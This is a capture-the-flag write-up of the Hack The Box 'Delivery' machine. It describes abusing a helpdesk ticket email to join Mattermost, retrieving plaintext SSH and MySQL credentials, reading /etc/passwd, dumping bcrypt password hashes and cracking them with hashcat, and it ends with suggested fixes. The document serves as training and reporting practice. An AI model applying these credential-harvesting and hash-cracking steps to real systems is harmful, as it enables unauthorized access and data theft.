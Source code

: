 # Delivery HTB Write up
# 2021

## Overview - Hack The Box: Delivery

### Disclaimer
The Hack the Box's ToC states `"Dont share how you hacked each machine with other members. This includes the invite code generation and all challenges."` This write up is intended as a practice exercise for ethical bounty disclosure and technical writing review. If this write up is found outside of my portfolio or re-hosted as a solutions key before the *delivery* box has been retired, please alert the page admin.

### Threat
The *root* login on the target is vulnerable and was exploited. This places all data stored on the server at critical risk, which has been confirmed. Additionally, any assets within the organization with similar user/passwords or root passwords is at risk.

### Summary
By accessing the delivery website and initiating a support ticket, full access to the Mattersmost database can be gained. There is a plaintext login and password stored in the Mattersmost management, which leads to FTP access of the user *maildeliverer*. A priveledge escalation exploit from this user can give full administrator access to all server files. This escalation is leveraged by locating a plain text password from a priveledged user in a log file. 

The CVSS for this exploit is:
`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:H/MI:H/MA:H`


### Methodology
The IP address given for the *delivery* box is `10.10.10.222`. 

The results of a basic network scan yielded:
```
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  unknown
```
No relavant information was revealed by a `whatweb` or `dirbuster` scan.

The website hosted at port 80 is *delivery.com*. By clicking on the **Helpdesk** link, a Support Center option is available. This is the first, unsecured system. The attacker can open a new ticket and provide fake credentials (emai and name). By doing so, this creates not only a ticket in the **Mattermost** system, but it also creates the `$ticketnumber@delivery.htb` email in the host's email system. 

The attacker can log into the the **View ticket** system with the originally supplied email and the ticket number. With the `$ticketnumber@delivery.htb` email, the attacker is able to go to the **Mattermost** page (`www.delivery.com:8065`) make a new account linked to the `delivery.htb` url by providing the `$ticketnumber@delivery.htb` as the main email.

Logging into the **View ticket** system again will allow the attacker to see the successful registration conformation link and activate the **Mattermost** account.

In the **Mattermost** system, the attacker is able to see a note from the administrator stating the ssh login for the server is `maildeliverer:Youve_G0t_Mail!` With this information, the attacker has basic credentials. There is also the note from the root user:
```
Also please create a program to help us stop re-using the same passwords everywhere... Especially those that are a variant of "PleaseSubscribe!"
PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```


__Reference 1__ shows all of the registered users and their respective permission groups. The `mysql` and `mattermost` users are the most likely targets for misconfiguration. With a simple search (__Reference 2__), the attacker is able to find the `/opt/mattermost/config/config.json` file, which inclues credentials for the mysql user `mmuser:Crack_The_MM_Admin_PW`.

Next, logging into the mysql database `mysql -u mmuser -D mattermost -p` and passing it the password above, the attacker is able to dump all hashed passwords for the Mattermost database (__Reference 3__). With this information and the note left by the `root` user in the **Mattermost** GUI, we can attack the hash with hashcat to find the password with a wordlist build around `PleaseSubscribe!`. This results in the `root:PleaseSubscribe!21` password.

### Suggested Resolution 

- Remove the usernames and passwords listed in the Mattermost GUI
- Do not auto-generate a local-domain email when creating a help ticket as a guest
- Require ssh-key login to the server
- Remove the plain-text username and password from the config.json file.
- Restrict hashed password access from the mmuser mysql account.


#### Reference 1
```
maildeliverer@Delivery:/etc$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:116::/var/lib/saned:/usr/sbin/nologin
colord:x:108:117:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:110:118:MySQL Server,,,:/nonexistent:/bin/false
mattermost:x:998:998::/home/mattermost:/bin/sh
```
#### Reference 2
```
maildeliverer@Delivery:/opt/mattermost/config$ find / -type d -name "mattermost" -print 2>/dev/null
/opt/mattermost
/var/lib/mysql/mattermost
```
#### Reference 3
```
SHOW TABLES;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+

SELECT Username, Password FROM Users;

+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| test                             | $2a$10$YCgSpsEVZyCOoKfoOT7AN.Rf8f.JozKIS84x4D1zYsb.w0m7NdsNi |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| user                             | $2a$10$Z7dGMIYCbv5Kz6syMZ6v6eWgI7LkPixqW9X/qiN2ew.3P435uohDa |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| admin                            | $2a$10$IUl7EUnL6OhbVHic0kLv/eLydJPuXWJYotPi/CABeLJ8/UhbX.Mla |
+----------------------------------+--------------------------------------------------------------+
```
#### Reference 4
```
hashcat -m 3200 -r 0 passwd wordlist
```
